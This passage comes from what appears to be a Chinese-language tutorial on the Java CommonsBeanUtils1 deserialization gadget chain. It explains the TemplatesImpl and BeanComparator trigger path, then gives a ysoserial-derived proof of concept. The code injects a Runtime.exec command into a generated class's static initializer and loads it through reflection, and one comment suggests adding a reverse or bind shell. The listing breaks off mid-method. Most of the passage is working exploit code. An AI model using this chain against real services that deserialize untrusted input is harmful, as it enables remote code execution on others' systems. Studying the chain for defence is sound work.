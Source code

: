 所以理清上边的思路之后，我们现在要做的事情就是构造一个TemplatesImpl对象，然后创建一个BeanComparator，把其中的property设置为TemplatesImpl的outputProperties字段，然后在触发了BeanComparator的compare方法时，如果<T>中的T类型为TemplatesImpl，则最终会触发TemplatesImpl的getOutputProperties方法，然后触发我们的调用链

## POC(基于ysoserial)

老规矩，这个还是ysoserial的代码拿过来改了，没有调用ysoserial中的工具类，不依赖工具库可以直接本地调试运行。

```java
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.math.BigInteger;
import java.util.PriorityQueue;

public class CommonsBeanUtils1 {
    static String serialFileName = "commons-bean-utils1.ser";
    public static void main(String[] args) throws Exception {
//        cb1bySerial();
        verify();
    }

    public static void verify() throws Exception {
        // 本地模拟反序列化
        FileInputStream fis = new FileInputStream(serialFileName);
        ObjectInputStream ois = new ObjectInputStream(fis);
        Object ignore = (Object) ois.readObject();
    }

    public static void cb1bySerial() throws Exception {
        //==========================CC2中的构造Templates的内容 START==========================
        String executeCode = "Runtime.getRuntime().exec(\"cmd /c start\");";
        ClassPool pool = ClassPool.getDefault();
        CtClass evil = pool.makeClass("ysoserial.Evil");
        // run command in static initializer
        // TODO: could also do fun things like injecting a pure-java rev/bind-shell to bypass naive protections
        evil.makeClassInitializer().insertAfter(executeCode);
        // sortarandom name to allow repeated exploitation (watch out for PermGen exhaustion)
        evil.setName("ysoserial.Pwner" + System.nanoTime());
        CtClass superC = pool.get(AbstractTranslet.class.getName());
        evil.setSuperclass(superC);

        final byte[] classBytes = evil.toBytecode();
        byte[][] trueclassbyte = new byte[][]{classBytes};

        Class<TemplatesImpl> templatesClass = TemplatesImpl.class;
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates, trueclassbyte);

        Field name = templatesClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates, "Pwnr");
```